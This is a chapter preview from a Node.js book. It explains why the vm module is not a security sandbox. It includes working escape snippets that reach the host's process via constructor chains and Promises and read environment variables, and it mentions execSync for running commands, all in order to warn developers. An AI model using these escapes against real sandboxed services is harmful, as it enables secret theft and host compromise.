


## Table of Contents

> This article is a preview of section 5.2 (subsections 5.2.1 ~ 5.2.3) from the upcoming [Node.js Deep Dive](https://yceffort.kr/2026/02/nodejs-deep-dive-beta-reader) book currently in progress. We're recruiting beta readers, so please check the link if you're interested.

## 5.2 The Pitfalls of the vm Module: Why It's Not a Sandbox

The need to execute untrusted code arises more frequently than you might expect. Whether it's evaluating user-input expressions, running third-party scripts in plugin systems, or processing pre-request scripts in API testing tools, these scenarios are common. In such situations, many Node.js developers first think of the `vm` module. It's easy to assume that creating a separate context with `vm.createContext()` and executing code within it using `vm.runInNewContext()` creates a completely isolated sandbox from the host environment. Indeed, there were several packages on npm built on top of the `vm` module that claimed to provide "secure code execution." `vm2` was downloaded over 16 million times monthly and was widely used, while `safe-eval` literally had "safe eval" in its name.

However, the official Node.js documentation clearly warns: "The node:vm module is not a security mechanism. Do not use it to run untrusted code."[^1] The context isolation provided by the `vm` module merely creates a V8 context with a separate global object; it fails to block access paths to the host environment through prototype chains or error objects. While `vm2` attempted to overcome this fundamental limitation with security wrappers, critical vulnerabilities with CVSS scores of 10.0 were repeatedly discovered. Eventually, in July 2023, the maintainer declared that "this problem is fundamentally unsolvable" and discontinued the project.[^2] This chapter analyzes the design purpose and actual protection scope of the `vm` module, demonstrates specific escape techniques, and examines historical cases where vm-based sandboxes failed. We'll also discuss what alternatives to choose when you truly need to isolate untrusted code.

## 5.2.1 The Design Purpose of the vm Module

The `vm` module is a tool for working with V8 virtual machine contexts. This module, which allows you to compile and execute JavaScript code in separate execution contexts, is often misunderstood as a "sandbox," but its actual design purpose is entirely different. In this section, we'll examine what the core APIs of the `vm` module actually do and why the official documentation warns against using it as a security tool.

### 5.2.1.1 Basic APIs and Operating Principles

The official Node.js documentation describes the `vm` module as "enables compiling and running code within V8 Virtual Machine contexts."[^1] The key word here is "contexts." The V8 Embedder's Guide defines contexts as follows: "In V8, a context is an execution environment that allows separate, unrelated, JavaScript applications to run in a single instance of V8."[^3] In other words, a context is an execution space with an independent global scope. It's similar to how each `<iframe>` in a browser has its own separate global object.

Let's examine the three core APIs of the `vm` module:

```javascript
import vm from 'node:vm'

// 1) vm.runInNewContext: Create a new context and execute code
const result = vm.runInNewContext('x + y', {x: 10, y: 20})
console.log(result) // 30

// 2) vm.createContext + vm.runInContext: Reuse contexts
const context = vm.createContext({counter: 0})
vm.runInContext('counter += 1', context)
vm.runInContext('counter += 1', context)
console.log(context.counter) // 2

// 3) vm.Script: Pre-compile code and execute repeatedly
const script = new vm.Script('value * 2')
const ctx1 = vm.createContext({value: 5})
const ctx2 = vm.createContext({value: 100})
console.log(script.runInContext(ctx1)) // 10
console.log(script.runInContext(ctx2)) // 200
```

> Example 5.2.1 Basic APIs of the vm module

`vm.runInNewContext()` is a shortcut method that handles both context creation and code execution at once. The object passed as the second argument serves as the global object during code execution. `vm.createContext()` "contextifies" the passed object by linking it with a V8 context, allowing subsequent repeated code execution within that context using `vm.runInContext()`. `vm.Script` pre-compiles code into bytecode, saving parsing costs when executing repeatedly across multiple contexts.

The important point here is that code inside the context cannot access the host's global variables:

```javascript
import vm from 'node:vm'

globalThis.secret = 'Host secret'

const result = vm.runInNewContext('typeof secret')

console.log(result) // "undefined"
console.log(globalThis.secret) // "Host secret" (unchanged)
```

> Example 5.2.2 Code inside context cannot access host global variables

Even though we set `globalThis.secret` on the host, `secret` is `undefined` inside `vm.runInNewContext()`. This is because the context has its own separate global object. Looking at this behavior alone, it seems like perfect isolation. However, there are critical gaps that prevent us from concluding this is a "sandbox." Let's first examine the official documentation's warnings, then analyze these gaps specifically in section 5.2.2.

### 5.2.1.2 Official Documentation Warning: "not a security mechanism"

The official Node.js documentation places the following warning at the very beginning of the `vm` module page:

> "The node:vm module is not a security mechanism. Do not use it to run untrusted code."[^1]

The fact that this warning appears in the first paragraph of the documentation is significant in itself. It's also evidence that many developers have misused this module for security purposes.

Interestingly, the current official documentation never uses the term "sandbox" at all. Instead, it only uses expressions like "context" and "contextified object." The return value of `vm.createContext()` is also called a "contextified object," not a "sandbox." This terminology choice is intentional. What the `vm` module provides is context separation, not a security boundary.

So why do developers misunderstand the `vm` module as a sandbox? There are two reasons.

First, the behavior of `vm.runInNewContext()` superficially appears to be perfect isolation. As we confirmed in Example 5.2.2, it cannot access host global variables, and the code execution results don't affect the host environment. Built-in Node.js objects like `require` or `process` are also unavailable unless explicitly passed to the context.

Second, the API names of the `vm` module in the early Node.js ecosystem caused confusion. The "new context" in `runInNewContext` is easily read as "new isolated environment," and for about 10 years from v0.10, the official API parameter name was actually `sandbox`[^4]. Although it was changed to `contextObject` in December 2019 through Rich Trott's PR #31057 to prevent security misunderstandings, the incorrect equation "vm = sandbox" had already become deeply entrenched among developers.

However, context separation and security isolation are completely different concepts. Context separation merely provides a separate global scope; it doesn't block access to process-level resources (file system, network, memory). If code inside the context climbs up the prototype chain of host objects, it can reach the `Function` constructor outside the context. As long as this path remains open, no amount of global variable blocking can prevent access to the entire host environment. The next section will analyze this escape route in detail.

## 5.2.2 What Context Isolation Protects and What It Doesn't

In section 5.2.1, we saw how `vm.runInNewContext()` blocks host global variables. This section clarifies exactly where context isolation provides protection and where it breaks down.

### 5.2.2.1 V8 Context and Global Object Separation

The V8 context created by `vm.createContext()` has its own independent global object. This global object contains newly created ECMAScript standard builtins (`Object`, `Array`, `Promise`, `Math`, etc.), but doesn't include Node.js-specific global objects (`process`, `require`, `Buffer`, `__dirname`, etc.).

```javascript
import vm from 'node:vm'

const context = vm.createContext({})

// ECMAScript builtins exist
console.log(vm.runInContext('typeof Object', context)) // "function"
console.log(vm.runInContext('typeof Array', context)) // "function"
console.log(vm.runInContext('typeof Promise', context)) // "function"

// Node.js global objects don't exist
console.log(vm.runInContext('typeof process', context)) // "undefined"
console.log(vm.runInContext('typeof require', context)) // "undefined"
console.log(vm.runInContext('typeof Buffer', context)) // "undefined"
```

> Example 5.2.3 Builtins and Node.js global objects in V8 context

There's an important point here. The builtins like `Object` and `Function` inside the context are not the host's, but **independent copies newly created within the context itself**.

```javascript
const contextFunction = vm.runInContext('Function', context)
console.log(contextFunction === Function) // false
```

The context's `Function` and the host's `Function` are different objects. Functions created with the context's `Function` constructor execute in the context's global scope, so they cannot access host globals like `process` or `require`. This separation is the core of context isolation.

Looking at this result alone, isolation seems to work well. Without access to `process`, you can't terminate the process with `process.exit()`, and without `require`, you can't load the `fs` module. However, this protection has a critical prerequisite: it only holds when you don't pass objects created on the host to the context.

### 5.2.2.2 The Gateway Opened by Prototype Chains

In real applications, it's rare to execute code without passing anything to the context. You need to pass data to user code or provide limited APIs by putting objects in the context. The problem is that the moment you pass objects created on the host to the context, those objects' prototype chains serve as bridges back to the host environment.

In JavaScript, all regular objects have prototype chains. The prototype of an object created with `{}` is `Object.prototype`, and `Object.prototype.constructor` points to the `Object` function. Since `Object` is a function, `Object.constructor` points to the `Function` constructor. As we confirmed in section 5.2.2.1, the context's own `Function` is a different object from the host's `Function`. However, when you climb up the prototype chain of objects created on the host, the `Function` you reach is not the context's, but **the host's**.

```javascript
import vm from 'node:vm'

const sandbox = {data: {value: 42}}
const context = vm.createContext(sandbox)

// The prototype chain of host objects reaches the host's Function
const hostFunction = vm.runInContext('data.constructor.constructor', context)
console.log(hostFunction === Function) // true — the host's Function!
```

> Example 5.2.4 Proof that host object prototype chains reach the host Function

`data` is an object created on the host as `{ value: 42 }`. This object's `constructor` is the host's `Object`, and `Object.constructor` is the host's `Function`. Functions created with the host's `Function` constructor execute in the host's global scope, so they can access `process`. Let's demonstrate the entire escape process with the following code:

```javascript
const escaped = vm.runInContext(
  `
  const HostObject = data.constructor;           // host's Object
  const HostFunction = HostObject.constructor;   // host's Function

  // Create a function that executes in the host context
  const getProcess = HostFunction('return process');
  const hostProcess = getProcess();

  ({
    pid: hostProcess.pid,
    version: hostProcess.version,
    platform: hostProcess.platform,
  });
`,
  context,
)

console.log(escaped)
// { pid: <current PID>, version: 'v24.13.0', platform: 'darwin' }
```

We merely passed a simple object `{ value: 42 }` from the host, yet the code inside the context successfully accessed `process.pid`, `process.version`, and `process.platform`. This happened even though we never explicitly passed `process` to the context.



> Figure 5.2.1 Sandbox escape path via prototype chain

Once you can access `process`, the damage is unlimited. You can terminate the process with `process.exit()`, read environment variables (DB passwords, API keys, etc.) with `process.env`, or in CJS environments, execute arbitrary system commands with `process.mainModule.require('child_process').execSync()`. (`process.mainModule` has been deprecated since v14.0.0, but is still accessible in CJS environments.)

You might think, "Then wouldn't it be safe if we don't pass host objects?" Indeed, this path is blocked if you don't pass host objects.

```javascript
import vm from 'node:vm'

// Prototype-less sandbox, no host objects passed
const sandbox = Object.create(null)
const context = vm.createContext(sandbox)

try {
  // this.constructor.constructor exists but is the context's own Function
  // Code created with the context's Function cannot access process
  vm.runInContext('this.constructor.constructor("return process")()', context)
} catch (err) {
  console.log('Escape blocked:', err.message)
  // ReferenceError: process is not defined
}

// However, passing even one host object immediately enables escape
const sandbox2 = Object.create(null)
sandbox2.config = {timeout: 5000} // simple object created on host
const context2 = vm.createContext(sandbox2)

const proc = vm.runInContext(
  'config.constructor.constructor("return process")()',
  context2,
)
console.log('Escape successful:', proc.version) // v24.13.0
```

> Example 5.2.5 Escape possibility based on whether host objects are passed

Without passing host objects, `this.constructor.constructor` is the context's own `Function`, so it cannot access `process` and throws a `ReferenceError`. However, passing even a simple configuration object like `{ timeout: 5000 }` immediately enables escape. Realistically, it's nearly impossible to execute meaningful code without passing any data. This is the fundamental reason why the `vm` module's context isolation cannot be used as a security tool. Prototype chains are just the most basic escape route; section 5.2.3 examines more sophisticated attack vectors like `Error.prepareStackTrace` and `Promise` callbacks.

## 5.2.3 Sandbox Escape: Attack Vector Analysis

In section 5.2.2, we confirmed the basic principle of accessing the host's `process` through the prototype chain. This section analyzes what pathways actually exist and how each pathway can be exploited. We'll cover techniques that bypass not only the simple context isolation of the `vm` module, but also cases where security wrappers like `vm2` have been added.

### 5.2.3.1 Obtaining Host Function via constructor

We demonstrated escape through `data.constructor.constructor` in section 5.2.2.2. The key point to emphasize is that `data` is not the only entry point. **Any value** created by the host becomes an escape pathway the moment it's passed to the context.

```javascript
import vm from 'node:vm'

const sandbox = Object.create(null)

// Any type of value created by the host connects to the host's Function
sandbox.callback = (msg) => console.log(msg) // function
sandbox.items = [1, 2, 3] // array
sandbox.pattern = /test/ // regex
sandbox.promise = Promise.resolve(42) // Promise

const context = vm.createContext(sandbox)

const escape = (expr) =>
  vm.runInContext(`${expr}.constructor('return process')().version`, context)

console.log('Via function:', escape('callback')) // v24.13.0
console.log('Via array:', escape('items.constructor')) // v24.13.0
console.log('Via regex:', escape('pattern.constructor')) // v24.13.0
console.log('Via Promise:', escape('promise.constructor')) // v24.13.0
```

> Example 5.2.6 All objects created by the host become escape pathways

Callback functions have a shorter chain since `callback.constructor` is directly the host's `Function`. Arrays, regular expressions, Promises, etc. reach `Function` through their respective constructors (`Array`, `RegExp`, `Promise`). Any pathway yields the same result. Once an attacker obtains the host's `Function` constructor, they can access `process` with `Function('return process')()`, and from there take control of the entire system.

Here's what an attacker can actually do after gaining access to the `process` object:

```javascript
import vm from 'node:vm'

const sandbox = {data: {}}
const context = vm.createContext(sandbox)

const stolen = vm.runInContext(
  `
  const F = data.constructor.constructor;
  const proc = F('return process')();

  ({
    // 1) Steal environment variables: DB passwords, API keys, etc.
    env: {
      HOME: proc.env.HOME,
      USER: proc.env.USER,
      SHELL: proc.env.SHELL,
    },
    // 2) Process information
    pid: proc.pid,
    cwd: proc.cwd(),
    argv: proc.argv,
    // 3) Can also disrupt service with process.exit()
    // 4) Can also load modules with process.mainModule?.require (in CJS environment)
  });
`,
  context,
)

console.log(stolen)
```

> Example 5.2.7 Actual scope of damage after process access

> `process.mainModule.require` doesn't always work. In ESM environments, `process.mainModule` is `undefined`, so this pathway cannot access `require`. However, environment variable theft through `process.env`, service disruption through `process.exit()`, and process termination through `process.kill()` all work regardless of the module system. In CJS environments, the damage is even greater as `process.mainModule.require('child_process').execSync()` can execute arbitrary system commands.

### 5.2.3.2 Escape via Error.prepareStackTrace

If prototype chain escape is the most basic vulnerability of the `vm` module, then `Error.prepareStackTrace` is an advanced technique that can neutralize even security wrappers like `vm2`. This technique was registered as CVE-2022-36067 (codename "SandBreak", CVSS 10.0) and became the decisive factor that hastened the end of `vm2`.[^5]

The V8 engine provides a non-standard API called `Error.prepareStackTrace`. It's a callback invoked when accessing an error object's `stack` property, originally intended for customizing stack trace formatting.

```javascript
// Basic behavior of Error.prepareStackTrace
Error.prepareStackTrace = (error, callSites) => {
  // callSites: array of CallSite objects
  // Each CallSite represents one frame in the call stack
  return callSites.map((site) => site.getFunctionName()).join('\n')
}
```

The problem is that this callback is **invoked across context boundaries**. `vm2` prevented prototype chain escape by wrapping all objects with `Proxy` to block `constructor` access. However, `vm2` stored the mapping between `Proxy` and original objects in a `WeakMap` and had a gap where methods like `WeakMap.prototype.has()` and `WeakMap.prototype.get()` were not wrapped. Attackers could access the original host objects behind the `Proxy` through unwrapped `WeakMap` methods, and use this to override `prepareStackTrace` to access `CallSite` objects from the host realm without going through `Proxy` wrapping. By obtaining host realm function references through `CallSite` objects, they could bypass even the most sophisticated `constructor` blocking by `Proxy`.

The core of the SandBreak attack can be conceptually summarized as follows:



> Figure 5.2.2 SandBreak (CVE-2022-36067) attack principle

This attack was particularly dangerous because it fundamentally invalidated `vm2`'s security model itself. `vm2` implemented security by using `Proxy` to intercept all object access inside the sandbox and block access to dangerous properties (`constructor`, `__proto__`, etc.). However, `Error.prepareStackTrace` is called directly from within the V8 engine, bypassing `Proxy` traps. No matter how sophisticated the defensive layers, they become meaningless if there's a pathway where host objects are exposed at the V8 engine level.

### 5.2.3.3 Bypass using Proxy and Promise Callbacks

Even after SandBreak was patched, similar types of vulnerabilities continued to be discovered in `vm2`. The common pattern was **bypassing sanitization when asynchronous callbacks execute in the host realm**.

`vm2` wrapped `Promise`'s `.then()` and `.catch()` callbacks to prevent sandbox code from accessing host realm objects. However, `vm2` only sanitized its own `Promise` wrappers, failing to sanitize callbacks of native `Promise`s returned by `async` functions. CVE-2023-37466 (CVSS 10.0) was a vulnerability that exploited exactly this gap.[^6]

```javascript
// Conceptual reproduction of CVE-2023-37466 (attack code executed within vm2)

// 1) Regular Promise: vm2 wraps with Proxy to sanitize callbacks
Promise.resolve().then(() => {
  // This callback executes through vm2's Proxy
  // → Access to dangerous properties like constructor is blocked
})

// 2) Return value of async function: bypasses vm2's wrapping
async function exploit() {
  return 1
}

exploit().then(() => {
  // Promise returned by async is host's native Promise, not vm2's wrapper
  // → .then() callback executes in host realm without sanitization
  // → Can access host objects → sandbox escape
})
```

This problem is not limited to `vm2`. Even in the original `vm` module, escape is possible using the same principle if the host's `Promise` is passed to the context.

```javascript
import vm from 'node:vm'

const sandbox = Object.create(null)
sandbox.hostPromise = Promise.resolve(42)
const context = vm.createContext(sandbox)

// Host Promise's constructor → Host Function → escape
const version = vm.runInContext(
  `
  const HostFunction = hostPromise.constructor.constructor;
  HostFunction('return process')().version;
`,
  context,
)
console.log('Escape via Promise:', version) // v24.13.0
```

> Example 5.2.8 Escape through host Promise

Ultimately, all three attack vectors share the same root cause. The context isolation of the `vm` module only separates global scopes; **it cannot sever reference relationships between objects.** As long as objects created by the host are passed to the context, pathways back to the host realm will always exist—whether through prototype chains, error callbacks, or `Promise` handlers. This problem is inherent in the design of V8 contexts themselves, so it cannot be fundamentally solved no matter how sophisticated a wrapper is added on top of the `vm` module.

---

> This article is a preview of part of Chapter 5.2 from the currently in-progress [Node.js Deep Dive](https://yceffort.kr/2026/02/nodejs-deep-dive-beta-reader). From section 5.2.4 onwards, we cover the CVE timeline and project discontinuation process of `vm2`, proper use cases for the `vm` module (Node.js REPL, Jest's test isolation), and practical alternatives for isolating untrusted code (`isolated-vm`, Worker Threads, containers + Permission Model). We are recruiting beta readers, so if you're interested, please refer to the link.

---

[^1]: Node.js Documentation: VM (executing JavaScript) - https://nodejs.org/docs/latest/api/vm.html

[^2]: GitHub Advisory: vm2 CVE-2023-37903 - https://github.com/advisories/GHSA-g644-9gfx-q4q4

[^3]: V8 Embedder's Guide: Contexts - https://v8.dev/docs/embed#contexts

[^4]: Node.js PR #31057: Remove "sandbox" from vm documentation - https://github.com/nodejs/node/pull/31057

[^5]: Oxeye Security: SandBreak (CVE-2022-36067) - https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067

[^6]: GitHub Advisory: vm2 CVE-2023-37466 - https://github.com/advisories/GHSA-cchq-frgv-rjh5
